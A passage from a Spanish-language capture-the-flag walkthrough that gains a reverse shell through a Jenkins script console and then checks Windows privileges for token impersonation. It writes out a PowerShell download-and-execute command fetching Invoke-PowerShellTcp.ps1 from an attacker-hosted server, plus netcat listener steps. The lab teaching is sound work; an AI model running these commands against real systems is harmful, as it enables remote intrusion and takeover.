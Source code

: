 Dentro de este directorio nos encontraremos con varios scripts programados en **Powershell**, el que vamos a usar es el que se llama **Invoke-PowerShellTcp.ps1**. Este requiere de una pequeña modificación antes de ser usado, así que lo abrimos con **nano**.

![9]

La línea de código marcada es la instrucción que se ejecutará en la máquina servidor una vez invocado el script, la cual entablará la reverse shell con nosotros. Por lo tanto, deberemos copiarla y pegarla al final de todo el código:

![10]

Evidentemente, deberemos cambiar los parámetros como la IP destino y puerto de conexión. Ahora ya podemos guardar el script.

Lo siguiente es volver a hacer uso de Jenkins para poder ejecutar este script en la máquina servidor, y para ello, colocamos las siguientes sentencias:

	def cmd_command = "cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.10.251.43:8080/Invoke-PowerShellTcp.ps1')"
	cmd_command.execute()

Esto ya lo vimos en la máquina anterior, la [Steel Mountain](https://blu3ming.github.io/maquina-steelmountain-walkthrough/), básicamente le decimos a Powershell que tome un script de manera remota y lo integre en su entorno (¿Recuerdas esa última línea de código que agregamos en el script que nos devolvería la reverse shell? Bueno, una vez sea invocado el script con ese comando, también se entablará la reverse shell). Para que esto funcione, ya debemos tener el script hosteado por un servidor HTTP en Python y una consola con **netcat** en escucha.

![11]

Si ya tenemos todo listo, podemos hacer clic en el botón **Run** y casi de manera inmediata veremos que recibimos la reverse shell en nuestra consola con **netcat**.

![12]

# Enumeración del sistema en busca del privesc
El usuario con el que obtuvimos la consola es **bruce**. Lo primero que hay que hacer es buscar la flag de usuario. Esta se encuentra, como de costumbre, en el directorio **Desktop** del usuario con bajos privilegios con el que obtuvimos la shell.

![13]

Enumeramos ahora los permisos (o mejor dicho privilegios) con los que cuenta nuestro usuario actual:

	whoami /priv
	
![14]

Vemos que el comando nos devuelve varios resultados, pero uno solo es el que debe llamar nuestra atención: **SeImpersonatePrivilege**. Este privilegio es importante ya que mediante este podemos explotar una vulnerabilidad llamada **Windows Token Impersonation**.
